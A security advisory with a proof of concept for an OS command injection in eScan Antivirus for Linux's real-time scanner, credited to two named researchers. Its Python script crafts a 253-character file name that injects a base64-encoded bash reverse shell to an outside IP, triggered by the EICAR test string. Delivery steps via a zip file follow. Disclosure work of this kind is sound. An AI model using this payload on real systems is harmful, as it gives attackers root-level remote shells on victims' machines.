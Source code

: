 # Description and Impact
Escan Antivirus for Linux has real-time protection program `rtscanner` run as system service. This program has a OS Command injection vulnerability in quarantine file mechanism. An attacker can send crafted file and gain remote code execution with highest privilege as soon as crafted file writes into victim's disk.

**Researchers**:
- Nông Hoàng Tú <tunh19@fpt.com>
- Ngô Thu Hồng <hongnt53@fpt.com>

# Root-cause
1. `rtscanner` failed to quarantine a file that has name **>= 253** characters (max file name's length on Linux is 255). This program uses command `mv` to move file to quarantine folder.
2. `rtscanner` uses dangerous function `system` with unsanitized data.

![image_2025-01-18_11-08-53](https://github.com/user-attachments/assets/616d5977-31dd-4668-8ff1-478fde87d53e)


3. By default, `/tmp/` and `/home/` are being monitored

![image_2025-01-18_11-08-53 (2)](https://github.com/user-attachments/assets/32487a13-d54b-4cf1-8dd4-6b699b5a636f)


An attacker can send any malicious file with crafted file name. As soon as crafted file writes into these folders, quarantine mechanism executes and malicious code command is executed with system's privilege.

In demotration bellow, I sent compressed file that contains malicious file to victim's machine. By default, compressed files are not being scanned by real-time scanner. Malicious code executes as soon as user uncompress downloaded file.

![image_2025-01-18_11-08-53 (3)](https://github.com/user-attachments/assets/a824dc12-9007-40b3-aa92-f0c374f8aa7a)

*Important notes*:
- When decompress using `Extract here` feature, program `engrampa` extracts internal file into a folder if there's no folder. The format will be `<name of compressed file> <suffix>` where suffix is a number, like `(2)`, `(3)`. Meanwhile real-time scanner adds folder `<name of compressed file>` to **inotify**'s watch list. This is a logic bug in scanner's logic. Therefore, compressed file delivered to victim must contains internal folder that has the same name with zip file.
- Demotration shows malicious code execution when file is decompressed. In other attack scenarios, malicious code might be executed *as soon as crafted file is written into victim's system* without user's interactions.
- Servers that has file upload feature and eScan for Linux (configured to monitor uploaded files) are under great danger.

# Proof-of-concept
1. Create crafted file that executes bash redirection to make reverse shell. Python script:

```
MAX_LEN=253

# Payload to trigger reverse shell
# bash -c 'exec bash -i &>/dev/tcp/192.168.58.192/8888 <&1'
PAYLOAD=";echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC41OC4xOTIvODg4OCA8JjEnCg==|base64 -d|sh"
PREFIX="AA AA" # Doesn't really required. But it looks a little better
SUFFIX=" # "
CHUNK="A" * (MAX_LEN - len(PREFIX) - len(PAYLOAD) - len(SUFFIX))
NAME=PREFIX + PAYLOAD + SUFFIX + CHUNK

print("DEBUG: created file with len", len(NAME))

# Content to trigger quarantine action
CONTENT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

with open("/tmp/" + NAME, "w") as f:
    f.write(CONTENT)
```

2. Create compressed zip file that contain crafted file and move it to web server.

![image_2025-01-18_11-08-53 (4)](https://github.com/user-attachments/assets/0b9913a1-6aed-4038-a6fc-dbc63584c3ae)

![image_2025-01-18_11-08-53 (5)](https://github.com/user-attachments/assets/8e4aeb59-6a4c-4bdb-b4f5-10044a3ed383)


Attacker creates a listener and wait victim's download malicious file.

![image_2025-01-18_11-08-53 (6)](https://github.com/user-attachments/assets/02f103a8-3af4-412b-bccd-7daf825b9617)

3. Victim downloads zip file then extract

![image_2025-01-18_11-08-53 (7)](https://github.com/user-attachments/assets/30af1e4f-b7fa-4957-9224-0f4cb984b497)

![image_2025-01-18_11-08-53 (8)](https://github.com/user-attachments/assets/f7d942b0-ce28-4c72-9171-d5fd372b593d)


4. Attacker gains remote code execution

![image_2025-01-18_11-08-53 (9)](https://github.com/user-attachments/assets/25db100b-906b-4b5c-a1cb-1d3247b01893)

![image_2025-01-18_11-08-53 (10)](https://github.com/user-attachments/assets/5f63a189-b819-4119-a87a-98e625762f3d)


*Important note*: If crafted file is quarantined, change `MAX_LEN` in python script to 255.
